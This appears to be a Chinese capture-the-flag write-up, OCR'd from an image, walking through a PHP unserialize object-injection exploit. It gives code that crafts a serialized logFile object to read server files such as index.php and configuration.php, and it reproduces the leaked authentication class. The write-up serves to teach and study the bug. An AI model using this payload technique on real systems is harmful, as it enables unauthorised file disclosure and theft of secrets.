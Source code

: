 ```
                echo json_encode(array('name'=>json_encode($this->fullName), 'status'=>true, 'message'=>'We have received you message, our administrator will be reading your issue as soon as possible'));
            else
                echo json_encode(array('name'=>json_encode($this->fullName), 'status'=>false, 'message'=>'It seems the message sent is not in the valid format.', 'error'=>$userCurl));
        }
```
看这个地方
```
$this->fullName = $this->data['title'] . $this->data['username'];
```
这个data对象就是
```
$this->data = unserialize($payload);
```
所以这就很简单了，只要让
```
$payload = array('title'=>'mr.', 'username'=>constructed_logFile())
```
在contact页面就会输出文件的内容
```
class logFile extends log {
	private $__logName = '../index.php';
	
	protected $_method = 'readLog';

}

if (isset($_POST['filename']))
{
	$a = new logFile();
	$payload = array('logged'=>true, 'title'=>'mr.','username'=>$a);
	var_dump(serialize($payload));
	file_put_contents('test.out', serialize($payload));
}
```
依次读取authentication.class.php和configuration.php的内容
```
//authentication.php

<?php
class authentication extends main {       
	private $__db;        
function __construct($db){        $this->__db = $db;    
} 
function sign($payload){        
	return md5($payload.$this->__sessionKey);    
}    
function login($loginString)
{        
$loginString = base64_decode($loginString);        
$credentials = explode(':', $loginString);        
$result = $this->__db->where("username", @$credentials[0])->where("password", md5($credentials[1]))->getOne('credentials');                
if($result===null)   return false;       
$result['logged'] = true;        
$result = serialize($result);        
$loginString = base64_encode($result) . '.' . self::sign($result);               
setcookie('loginString',  $loginString,  time()+3600, "/");        
return true;    }
}
```
